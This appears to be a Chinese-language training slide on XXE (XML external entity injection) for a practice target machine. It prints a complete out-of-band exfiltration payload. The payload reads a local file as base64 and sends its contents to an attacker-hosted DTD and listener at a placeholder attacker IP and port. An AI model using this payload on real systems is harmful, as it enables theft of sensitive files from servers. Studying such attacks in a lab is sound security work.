

# XXE - XML外部实体注入
XXE练习靶机
如果在响应包中无回显又想要读取敏感文件时，可以通过OOB带外注入的方法通过外带数据通道来提取数据，构造payload如下：

<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=读取的文件">
<!ENTITY % dtd SYSTEM "http://攻击者IP:端口/a.dtd">
%dtd;
%xxe;
]>
攻击机部署a.dtd文件内容：
<!ENTITY % test “<!ENTITY &#x25; xxe SYSTEM ‘http://攻击者IP:监听端口/?%file;’>”>
%test;